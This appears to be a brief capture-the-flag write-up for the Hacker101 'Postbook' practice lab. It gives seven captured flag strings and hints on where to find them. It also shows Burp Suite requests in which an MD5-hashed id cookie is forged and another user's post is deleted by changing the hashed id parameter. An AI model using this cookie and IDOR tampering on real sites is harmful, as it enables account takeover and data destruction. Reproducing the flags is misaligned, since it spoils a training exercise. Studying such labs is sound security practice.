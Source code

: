 # Postbook [EASY]

https://095ee73f8f602f3c0b046f2f49bbc83b.ctf.hacker101.com/
[writeups](https://www.youtube.com/watch?v=reHGY6YC1yY&list=PLwZzfJHW8fl8vA2A9XHHv8_N1AgA6rM3h&index=24)

Where to check for flags:
- Page Source
- login into other
- Changing end url -> /edit/3



> ^FLAG^ab13754e9cdd311ff97f8d79f17b2058859ceb5c06690f6ae0a75a4d1fd16bec$FLAG$ [0]
> ^FLAG^8ff7c901569e27a22a221f4d6a8cc487e64539f08f10acccf5295299cf006ee3$FLAG$ [1]
> ^FLAG^6903429da18dc3d25d2f61a990bc5847b457506796d06f3105d518dc9ed9fa81$FLAG$ [2]
> ^FLAG^852673882d8eef8244abbcbd6cbb3ac2d9d51cd57b4315f7332ff38cecbccd2b$FLAG$ [3]
> ^FLAG^e0bcf273af92907664cafa4d88856519285a3afb7ce6a64d8a9cb04bd311b1ec$FLAG$ [4]
> ^FLAG^36b46107fe3794f3774e6cd0a632873789a63871b0c12a58699ae24056bc0685$FLAG$ [5]
> ^FLAG^f19c8fcb267cf4aa708872ed2628309e750fffa57bc3357e0b945b5d26bfbb08$FLAG$ [6]

In login page 'Burp Suite'

---
GET /index.php?page=home.php HTTP/2
Host: 79590f8031a0b0d2c5d260da4642d4d6.ctf.hacker101.com
Cookie: id=c81e728d9d4c2f636f067f89cc14862c
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="113", "Not-A.Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://79590f8031a0b0d2c5d260da4642d4d6.ctf.hacker101.com/index.php?page=sign_in.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
---

> Cookie: "c81e728d9d4c2f636f067f89cc14862c" => 2
>>> echo 1 | md5sum
> b026324c6904b2a9cb4b88d6d61c81d1
> Web: c4ca4238a0b923820dcc509a6f75849b

> Delete Post id: "c9f0f895fb98ab9159f51fd0297e236d"
> Md5 Decrypted: 8

> GET /index.php?page=delete.php&id=c9f0f895fb98ab9159f51fd0297e236d HTTP/2
Host: 79590f8031a0b0d2c5d260da4642d4d6.ctf.hacker101.com
Cookie: id=c81e728d9d4c2f636f067f89cc14862c
>>> GET /index.php?page=delete.php&id=c4ca4238a0b923820dcc509a6f75849b HTTP/2
Host: 79590f8031a0b0d2c5d260da4642d4d6.ctf.hacker101.com
Cookie: id=c81e728d9d4c2f636f067f89cc14862c
> GET /index.php?page=home.php&message=^FLAG^f19c8fcb267cf4aa708872ed2628309e750fffa57bc3357e0b945b5d26bfbb08$FLAG$ 


